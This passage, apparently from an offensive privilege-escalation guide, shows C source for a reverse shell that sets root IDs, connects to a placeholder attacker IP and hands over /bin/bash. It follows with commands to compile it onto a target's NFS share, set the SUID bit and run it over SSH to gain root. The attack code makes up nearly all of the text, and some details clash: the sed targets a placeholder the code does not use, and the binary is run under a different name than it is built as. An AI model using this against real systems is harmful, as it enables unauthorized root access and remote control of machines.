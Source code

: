 ```bash
    setuid(0);
    setgid(0);
    
    int sockfd;
    struct sockaddr_in server_addr;
    
    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    // Configure server address
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(ATTACKER_PORT);
    server_addr.sin_addr.s_addr = inet_addr(ATTACKER_IP);
    
    // Connect to attacker
    connect(sockfd, (struct sockaddr*)&server_addr, sizeof(server_addr));
    
    // Redirect stdin, stdout, stderr
    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);
    
    // Execute shell
    execve("/bin/bash", NULL, NULL);
    
    return 0;
}
EOF

# Remember to change ATTACKER_IP before compiling
sed -i 's/YOUR_IP_HERE/<your-ip>/' /mnt/target_nfs/reverse_shell.c
gcc /mnt/target_nfs/reverse_shell.c -o /mnt/target_nfs/reverse_shell
chmod +s /mnt/target_nfs/reverse_shell
```

#### Step 4: Execute on Target

##### Direct Execution
```bash
# SSH or direct access to target machine
ssh user@<target-ip>

# Navigate to the NFS mount point on target
cd /path/to/nfs/export

# Execute the SUID binary
./suid_shell

# Verify root access
id
whoami
```
